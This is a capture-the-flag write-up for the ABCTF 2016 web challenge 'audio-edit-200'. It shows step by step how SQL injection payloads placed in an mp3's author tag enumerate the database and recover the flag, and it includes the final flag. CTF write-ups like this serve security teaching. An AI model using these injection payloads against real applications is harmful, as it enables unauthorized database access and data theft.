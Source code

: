 # ABCTF 2016 : audio-edit-200

**Category:** Web
**Points:** 200
**Solves:** 21
**Description:**

I made a cool site to edit audio files. [Can you exploit it?](http://107.170.122.6/audioedit/)

## Write-up

The site offers users to upload an mp3 and therewith do some modifications on e.g. pitch or grain size.
In order to save the uploaded file it's inserted into a database.
It can be requested with a identifier delivered as the HTTP-GET parameter 'file'.
The identifier is created as the sha1sum of the mp3 content.
When opening a mp3 that way, the edit-overview shows some modification modulators,
but also the 'Author' as well as the 'Title' of the particular mp3.

![edit.php](images/abctf-2016-audioedit-edit.png)

Some test quickly revealed the input of 'Author' and 'Title' in the mp3-metadata isn't verified
and offers a SQL-injection vulnerability.

We figured the insertion statement looked smth. like this:

    INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'author','title'...);

In order to do an SQL-injection we have to create a special author and title field.
I used [easyTAG](https://wiki.gnome.org/Apps/EasyTAG) but of course you can use the tool of your choice to modify mp3-meta-data;-)
In order to do an injection and maintain a valid INSERTION statement you can create an mp3
with the following meta data:


    title  = "" (leer)
    author = a', (SELECT @@version))-- -b

Which creates the following statement

    INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'a', (SELECT @@version))-- -b',''...);

The 'a' in the beginning and the 'b' in the end were necessary because the first and last character were
discarded...

This gave us the database version: 5.5.49-0ubuntu0.14.04.1

Next we wanted to know the database name:

    author = a', (SELECT database()))-- -b:
    audioedit

And of course the column names:

    author = a',(SELECT column_name FROM information_schema.columns WHERE table_name = 'audioedit' LIMIT x,1))-- -a
    with x in range(0,3):
    id
    file
    author
    title

So finally we wanted see whats in there:

    author = a',(SELECT author FROM audioedit.audioedit LIMIT 0,1))-- -a

... but this gave us an insertion error!:(

The problem is you can't select from a database that you're inserting into at the same time... Thanks to Arxenix!:)

So we got around by using AS:

    author = a',(SELECT author FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    ABCTF
    author = a',(SELECT title FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    flag
    author = a',(SELECT file FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    supersecretflagf1le.mp3

Using this info we visited the corresponding site: http://107.170.122.6/audioedit/edit.php?file=supersecretflagf1le.mp3

Setting the visualization to 'Sonogram' finally showed us the flag:

    ABCTF{m3t4_inj3cti00n}

![flag](images/abctf-2016-audioedit-flag.png)

## Other write-ups and resources

* http://countersite.org/articles/web-vulnerability/105-audioedit-writeup.html
